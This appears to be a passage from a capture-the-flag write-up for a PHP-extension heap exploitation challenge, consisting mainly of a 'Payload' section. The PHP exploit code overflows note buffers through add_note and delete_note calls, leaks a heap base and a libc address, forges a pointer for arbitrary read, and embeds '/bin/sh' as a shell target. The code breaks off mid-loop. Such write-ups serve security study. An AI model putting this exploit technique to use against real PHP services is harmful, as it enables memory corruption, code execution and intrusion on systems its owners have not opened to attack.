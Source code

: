 ## Payload

It\`s not the final edition because functions like `chr()` are banned in the docker, and getting shell is usually not allowed in PHP pwn. I preserved them to make it more readable.

```php
<?php
	// function mychr($index){
	// 	return ['\x00', '\x01', '\x02', '\x03', '\x04', '\x05', '\x06', '\x07', '\x08', '\t', '\n', '\x0b', '\x0c', '\r', '\x0e', '\x0f', '\x10', '\x11', '\x12', '\x13', '\x14', '\x15', '\x16', '\x17', '\x18', '\x19', '\x1a', '\x1b', '\x1c', '\x1d', '\x1e', '\x1f', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~', '\x7f', '\x80', '\x81', '\x82', '\x83', '\x84', '\x85', '\x86', '\x87', '\x88', '\x89', '\x8a', '\x8b', '\x8c', '\x8d', '\x8e', '\x8f', '\x90', '\x91', '\x92', '\x93', '\x94', '\x95', '\x96', '\x97', '\x98', '\x99', '\x9a', '\x9b', '\x9c', '\x9d', '\x9e', '\x9f', '\xa0', '¡', '¢', '£', '¤', '¥', '¦', '§', '¨', '©', 'ª', '«', '¬', '\xad', '®', '¯', '°', '±', '²', '³', '´', 'µ', '¶', '·', '¸', '¹', 'º', '»', '¼', '½', '¾', '¿', 'À', 'Á', 'Â', 'Ã', 'Ä', 'Å', 'Æ', 'Ç', 'È', 'É', 'Ê', 'Ë', 'Ì', 'Í', 'Î', 'Ï', 'Ð', 'Ñ', 'Ò', 'Ó', 'Ô', 'Õ', 'Ö', '×', 'Ø', 'Ù', 'Ú', 'Û', 'Ü', 'Ý', 'Þ', 'ß', 'à', 'á', 'â', 'ã', 'ä', 'å', 'æ', 'ç', 'è', 'é', 'ê', 'ë', 'ì', 'í', 'î', 'ï', 'ð', 'ñ', 'ò', 'ó', 'ô', 'õ', 'ö', '÷', 'ø', 'ù', 'ú', 'û', 'ü', 'ý', 'þ', 'ÿ'][$index];
	// }

	function tobytes($integerValue, $byteLength) {
	    $byteString = '';
	    for ($i = 0; $i < $byteLength; $i++) {
	        $byteString .= chr($integerValue & 0xFF);
	        $integerValue >>= 8;
	    }
	    return $byteString;
	}

	add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa");
	add_note("number1","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa");
	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00/bin/shacaaadaaaeaaafaaagaaahaaaiaaajaaa");

	$fd=list_note();
	$fd = $fd[1];
	$decimalValue = 0;

	for ($i = 1; $i <= 6; $i++) {
	    $char = $fd[-$i];
	    $digit = ord($char);
	    $decimalValue = ($decimalValue << 8) | $digit;
	}
	
	$heap_base = $decimalValue - 0x1480;
	$target_libc = $heap_base + 0x82000; 

	delete_note(0);
add_note("number0","aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa\x00aaaabaaacaaadaaaeaaafaaagaaahaaa\xff\x00\x00\x00\x00\x00\x00\x00" . tobytes($target_libc,8));
	$libc_off = view_note(1);
	$libc = 0;

	for ($i = 5; $i >= 0; $i--) {
	    $char = $libc_off[$i];
	    $digit = ord($char);
	    $libc = ($libc << 8) | $digit;
```